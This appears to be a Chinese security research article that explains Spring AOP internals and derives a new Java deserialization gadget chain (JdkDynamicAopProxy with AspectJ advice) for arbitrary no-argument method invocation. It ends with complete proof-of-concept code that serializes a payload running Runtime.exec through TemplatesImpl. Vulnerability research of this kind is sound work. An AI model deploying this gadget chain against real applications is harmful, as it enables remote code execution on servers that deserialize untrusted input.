









# SpringAop新链实现任意无参方法调用-先知社区

> **来源**: https://xz.aliyun.com/news/17640  
> **文章ID**: 17640

---

## AOP初体验

有必要先了解一些AOP的概念

* 切面(Aspect): 公共功能的实现。如日志切面、权限切面、验签切面。给Java类使用`@Aspect`注释修饰，就能被AOP容器识别为切面
* 通知(Advice): 切面的具体实现，即切面类中的一个方法，根据放置的地方不同，可分为前置通知（Before）、后置通知（AfterReturning）、异常通知（AfterThrowing）、最终通知（After）与环绕通知（Around）
* 连接点(JoinPoint): 程序在运行过程中能够插入切面的地方。Spring只支持方法级的连接点，比如一个目标对象有5个方法，就有5个连接点
* 切点(PointCut): 用于定义通知应该应用到哪些连接点
* 引入(Introduction)：动态地为类添加新的接口实现

`spring-boot-starter-aop`这个依赖就能包括`spring-aop`和`aspectJWeaver`这两个所需依赖

```
<dependency>  
    <groupId>org.springframework.boot</groupId>  
    <artifactId>spring-boot-starter-aop</artifactId>  
</dependency>
```

接下来尝试切面织入

1. 定义切面类`LoggingAspect`，下面的`logBefore`方法即一个通知(advice)，并将通知注册到了定义的切点`serviceLayer`

```
@Aspect  
@Component  
public class LoggingAspect {  
    // 定义切点  
    @Pointcut("execution(* org.test.service.*.*(..))")  
    public void serviceLayer() {}  
  
    // 在切点匹配的方法执行前应用通知
    @Before("serviceLayer()")  
    public void logBefore(JoinPoint joinPoint) {  
        System.out.println("Method Called: " + joinPoint.getSignature());  
    }  
}
```

`@Pointcut`使用规则匹配来定义通知(advice)要应用到哪些连接点(joint point，即方法)

* `execution`表示匹配方法的执行
* 第一个`*`号表示方法有任意返回值
* `org.test.service`为匹配的包名
* 后面两个`*`表示包名下的所有类的所有方法
* `(...)`表示方法的参数任意

1. 定义服务类

```
@Service  
public class HelloService {  
    public void sayHello() {  
        System.out.println("hello");  
    }  
}
```

可以看到IDEA也会有相应的智能提醒  
  
3. 启动SpringBoot项目

```
@SpringBootApplication  
public class Application {  
    public static void main(String[] args) {  
        ConfigurableApplicationContext context = SpringApplication.run(Application.class, args);  
        HelloService service = context.getBean(HelloService.class);  
        service.sayHello();  
    }  
}
```

打印如下内容，成功通过AOP实现方法级别的hook

```
Method Called: void org.test.service.HelloService.sayHello()
hello
```

## 从AOP动态代理到方法拦截

`JdkDynamicAopProxy`这个类最初用于解决Jackson链的不稳定触发(https://xz.aliyun.com/news/1229)，但深入研究下去才发现它功能的强大。  
这个类是JDK动态代理中的调用处理器，当代理对象Proxy调用方法时，会跳转到该类的invoke方法来处理。

```
target = targetSource.getTarget();  
Class<?> targetClass = (target != null ? target.getClass() : null);  
  
// Get the interception chain for this method.  
List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);  
  
// Check whether we have any advice. If we don't, we can fallback on direct  
// reflective invocation of the target, and avoid creating a MethodInvocation.  
if (chain.isEmpty()) {  
    // We can skip creating a MethodInvocation: just invoke the target directly
    Object[] argsToUse = AopProxyUtils.adaptArgumentsIfNecessary(method, args);  
    retVal = AopUtils.invokeJoinpointUsingReflection(target, method, argsToUse);  
}  
else {  
    MethodInvocation invocation =  
          new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);  
    // Proceed to the joinpoint through the interceptor chain.  
    retVal = invocation.proceed();  
}
```

在调用目标对象Target的方法之前，会检查这个方法是否有配置拦截链  
在Jackson链中走的是`chain.isEmpty()`的情况，即未配置拦截链，直接通过反射来调用Target的方法  
若配置了拦截链，则先通过拦截链的一层层处理，再到JoinPoint（即target的方法）  
`AdvisedSupport`是关于代理对象配置的，先看如何获取用于拦截的advice

```
public List<Object> getInterceptorsAndDynamicInterceptionAdvice(Method method, Class<?> targetClass) {  
    MethodCacheKey cacheKey = new MethodCacheKey(method);  
    List<Object> cached = this.methodCache.get(cacheKey);  
    if (cached == null) {  
       cached = this.advisorChainFactory.getInterceptorsAndDynamicInterceptionAdvice(  
             this, method, targetClass);  
       this.methodCache.put(cacheKey, cached);  
    }  
    return cached;  
}
```

`readObject`会为`methodCache`分配一个空的Map，因此首次根据`MethodCacheKey`获取拦截链肯定得到null  
因此接着看`getInterceptorsAndDynamicInterceptionAdvice`  
  
从配置获取`Advisior`（包含有advice和决定advice作用位置匹配的过滤器），有多少个`Advisor`拦截链`interceptorList`长度就有多少  
接着判断是作用到PointCut的advice还是作用到Introduction的advice，但最终都是通过`registry.getInterceptors(advisor)`获取Interceptor合并到`interceptorList`中，registry为`DefaultAdvisorAdapterRegistry`  
  
若advice是`MethodInterceptor`类型，直接加入拦截器中，顾名思义`MethodInterceptor`这个接口就是用于拦截前往target的方法调用，往其声明的`invoke`方法添加拦截时要处理的逻辑（如记录日志）即可。  
回到`JdkDynamicAopProxy`，当chain不为空时，实例化`ReflectiveMethodInvocation`并调用其proceed  
  
`currentInterceptorIndex`指向当前拦截器在拦截链中的索引，若已经执行完所有拦截器（即索引已到达size-1），则直接`invokeJoinpoint`调用JoinPoint连接点的方法（即target的方法）。如果当前advice是根据规则动态匹配方法的，则先判断当前方法是否匹配到，若匹配到则调用拦截器的invoke方法。

## Advice调用切面方法

现在思考一下第一节AOP的案例最后advice是怎么调用到我们自定义的切面方法呢，我们只是定义了一个接受`JoinPoint`参数的方法，然后用`@Before`注释了该方法。可以猜测框架保存了这个Method，最后用反射调用，传入匹配到的JoinPoint作为参数。  
接下来就要看`AbstractAspectJAdvice`这个抽象类，上面提到的几个通知类型都是它的子类（包括Before、After、AfterReturning、AfterThrowing、Around）  
  
以After的invoke方法为例

```
public Object invoke(MethodInvocation mi) throws Throwable {  
    try {  
       return mi.proceed();  
    }  
    finally {  
       invokeAdviceMethod(getJoinPointMatch(), null, null);  
    }  
}
```

先调用proceed让拦截链继续传递到下一个拦截器，最后再`invokeAdviceMethod`调用拦截逻辑（`AbstractAspectJAdvice`中定义）  
最终走到`invokeAdviceMethodWithGivenArgs`

```
protected Object invokeAdviceMethodWithGivenArgs(Object[] args) throws Throwable {  
    Object[] actualArgs = args;  
    if (this.aspectJAdviceMethod.getParameterCount() == 0) {  
       actualArgs = null;  
    }  
   ReflectionUtils.makeAccessible(this.aspectJAdviceMethod);  
   return this.aspectJAdviceMethod.invoke(this.aspectInstanceFactory.getAspectInstance(), actualArgs);  
}
```

`aspectJAdviceMethod`即advice对应的方法（如上面实现的logBefore）  
注意Method并没有实现Serializable接口，`aspectJAdviceMethod`属性也是由`transient`修饰  
Method实际上是readObject时通过反射恢复的

```
this.aspectJAdviceMethod = this.declaringClass.getMethod(this.methodName, this.parameterTypes);
```

调用对象由`this.aspectInstanceFactory.getAspectInstance()`获取

有多个实例工厂类  


* `SimpleAspectInstanceFactory`  
  直接反射调用的无参构造器，可惜这个类不能序列化，否则可以考虑打`ClassPathXmlApplicationContext`

```
ReflectionUtils.accessibleConstructor(this.aspectClass).newInstance();
```

* `SingletonAspectInstanceFactory`  
  单例工厂，直接返回对象

```
public final Object getAspectInstance() {  
    return this.aspectInstance;  
}
```

* `SimpleBeanFactoryAwareAspectInstanceFactory`  
  由Bean工厂创建

```
this.beanFactory.getBean(this.aspectBeanName);
```

发现有个`SimpleJndiBeanFactory`，可惜这个工厂类也不能序列化，不然可能可以打JNDI

```
public Object getBean(String name) throws BeansException {  
    return this.getBean(name, Object.class);  
}  
  
public <T> T getBean(String name, Class<T> requiredType) throws BeansException {  
    return (T)(this.isSingleton(name) ? this.doGetSingleton(name, requiredType) : this.lookup(name, requiredType));  
}
```

因此能利用的只有单例工厂了。  
现在反射调用方法的三要素Method和调用对象都齐了，只剩参数了。  
`AbstractAspectJAdvice#argBinding`

```
if (jpMatch != null) {  
    PointcutParameter[] parameterBindings = jpMatch.getParameterBindings();  
    for (PointcutParameter parameter : parameterBindings) {  
       String name = parameter.getName();  
       Integer index = this.argumentBindings.get(name);  
       adviceInvocationArgs[index] = parameter.getBinding();  
       numBound++;  
    }  
}
```

`jpMatch`来自`getJoinPointMatch`

```
protected JoinPointMatch getJoinPointMatch(ProxyMethodInvocation pmi) {  
    String expression = this.pointcut.getExpression();  
    return (expression != null ? (JoinPointMatch) pmi.getUserAttribute(expression) : null);  
}
```

没找到可以调用`ProxyMethodInvocation#setUserAttribute`的地方，又想到是否有拦截器可以拦截时添加这一属性，翻了一圈没找到（还是有挺多有意思的拦截器，但都不能序列化QAQ）  
所以目前只能调用无参方法了。

## 任意无参方法调用

直接按上面讲解的来构造，会发现报错了  
  
找不到`MethodInvocation`，也就是在`JdkDynamicAopProxy`中实例化的`ReflectiveMethodInvocation`  
再看一眼报错所在的类`ExposeInvocationInterceptor`——也是一个拦截器  
  
invoke刚好把`MethodInvocation`设置进当前上下文进程类。  
因此只需多往advice链里注册个`ExposeInvocationInterceptor`即可。  
注意由于是链式调用，需要先注册这个interceptor，再注册advice。  
下面以调用`TemplatesImpl#newTransformer`为例

```
public static void main(String[] args) throws Exception {  
    SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(makeTemplatesImpl("open -a Calculator"));  
    Method m = TemplatesImpl.class.getMethod("newTransformer");  
    AspectJMethodBeforeAdvice advice = new AspectJMethodBeforeAdvice(m, new AspectJExpressionPointcut(), factory);  
  
    Constructor<?> c = ExposeInvocationInterceptor.class.getDeclaredConstructors()[0];  
    c.setAccessible(true);  
    ExposeInvocationInterceptor interceptor = (ExposeInvocationInterceptor) c.newInstance();  
  
    AdvisedSupport advisedSupport = new AdvisedSupport();  
    advisedSupport.addAdvice(interceptor);  
    advisedSupport.addAdvice(advice);  
  
    Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);  
    constructor.setAccessible(true);  
    InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);  
    Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Serializable.class}, handler);  
    BadAttributeValueExpException val = new BadAttributeValueExpException(null);  
    Util.setFieldValue(val, "val", proxy);  
    Util.ser(val);  
}  
  
public static Object makeTemplatesImpl(String cmd) throws Exception {  
    ClassPool pool = ClassPool.getDefault();  
    CtClass clazz = pool.makeClass("a");  
    CtClass superClass = pool.get(AbstractTranslet.class.getName());  
    clazz.setSuperclass(superClass);  
    CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);  
    constructor.setBody("Runtime.getRuntime().exec(""+cmd+"");");  
    clazz.addConstructor(constructor);  
    byte[][] bytes = new byte[][]{clazz.toBytecode()};  
    TemplatesImpl templates = TemplatesImpl.class.newInstance();  
    Util.setFieldValue(templates, "_bytecodes", bytes);  
    Util.setFieldValue(templates, "_name", "test");  
    return templates;  
}
```


